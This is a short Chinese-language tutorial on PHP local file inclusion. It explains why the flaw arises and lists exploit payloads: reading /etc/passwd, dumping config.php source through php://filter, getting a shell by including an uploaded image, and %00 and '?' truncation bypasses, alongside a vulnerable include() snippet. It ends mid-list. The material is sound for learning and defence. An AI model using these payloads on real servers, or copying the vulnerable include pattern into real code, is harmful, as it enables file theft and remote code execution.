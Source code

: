 # 文件包含

## 本地文件包含(LFI)

文件包含漏洞的产生原因是 PHP 语言在通过引入文件时，引用的文件名，用户可控，由于传入的文件名没有经过合理的校验，或者校验被绕过，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

当被包含的文件在服务器本地时，就形成的本地文件包含漏洞。

### 漏洞利用

利用条件:

>（1）include()等函数通过动态变量的方式引入包含文件； （2）用户能够控制该动态变量。

**读取敏感文件:**

```txt
?arg=/etc/passwd
```

**利用伪协议读源码**

```txt
?arg=php://filter/read=convert.base64-encode/resource=config.php	#这样能看到php文件的源码
```

**包含图片Getshell**

```txt
在上传的图片中写入恶意代码，然后用 LFI 包含调用，就会执行图片里的PHP代码
```

**截断包含**

漏洞代码:

```php
<?php
if(isset($_GET['arg']))
{
    include($_GET['arg'].".php"); 
}else{
    include(index.php);
 }
?>
```

这样做一定程度上修复了漏洞， 上传**图片一句话**并访问：`http://vuln.com/index.php?arg=1.jpg`会出错。

因为包含文件里面不存在`1.jpg.php`这个文件。

但是如果输入`http://vuln.com/index.php?arg=1.jpg%00`，就极有可能会绕过检测。

这种方法只适用于`php.ini`中`magic_quotes_qpc=off`并且`PHP`版本< 5.3.4的情况。

如果为on，%00会被转义，以至于无法截断。

```php
%00截断
price=1&id=2&name=2&pay=1.php%00
?号截断
price=1&id=2&name=2&pay=1.php?
.溢出截断
```